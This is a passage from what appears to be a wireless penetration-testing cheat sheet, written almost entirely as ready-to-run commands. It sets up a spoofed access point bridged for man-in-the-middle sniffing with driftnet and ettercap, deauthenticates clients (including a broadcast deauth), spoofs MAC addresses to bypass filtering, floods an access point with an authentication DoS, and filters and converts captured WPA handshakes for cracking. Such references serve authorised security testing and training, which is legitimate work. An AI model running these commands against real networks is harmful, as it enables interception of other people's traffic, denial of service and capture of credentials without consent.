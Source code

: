 #### Access Point MITM

```powershell
airmon-ng start wlan0 3
airbase-ng -c 3 -e $AP_SSID_SPOOFED mon0

# create a bridged interface
# apt-get install bridge-utils
brctl addbr hacker
brctl addif hacker eth0
brctl addif hacker at0

# assign IP addresses
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig hacker 192.168.1.8 up

# enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# mitm tools
driftnet
ettercap -G
Sniff > Unified sniffing > Hacker Interface
```

### Other things

```powershell
# Find Hidden SSID
aireplay-ng -0 20 –a <BSSID> -c <VictimMac> mon0

# Mac Filtering
macchanger –-mac <VictimMac> wlan0mon
aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon
# MAC CHANGER
ifconfig wlan0mon down
macchanger –-mac <macVictima> wlan0mon
ifconfig wlan0mon up

# Deauth Global
aireplay-ng -0 0 -e hacklab -c FF:FF:FF:FF:FF:FF wlan0mon

# Authentication DoS Mode
mdk3 wlan0mon a -a $AP_MAC

# Tshark - Filter and dislay data
tshark -r Captura-02.cap -Y "eapol" 2>/dev/null
tshark -i wlan0mon -Y "wlan.fc.type_subtype==4" 2>/dev/null
tshark -r Captura-02.cap -Y "(wlan.fc.type_subtype==0x08 || wlan.fc.type_subtype==0x05 || eapol) && wlan.addr==20:34:fb:b1:c5:53" 2>/dev/null

# Convert .cap with handshake to .hccap
aircrack-ng -J network network.cap
```

### References

* https://uceka.com/2014/05/12/wireless-penetration-testing-cheat-sheet/
* https://www.doyler.net/security-not-included/aireplay-0841-attack
* https://gist.github.com/s4vitar/3b42532d7d78bafc824fb28a95c8a5eb
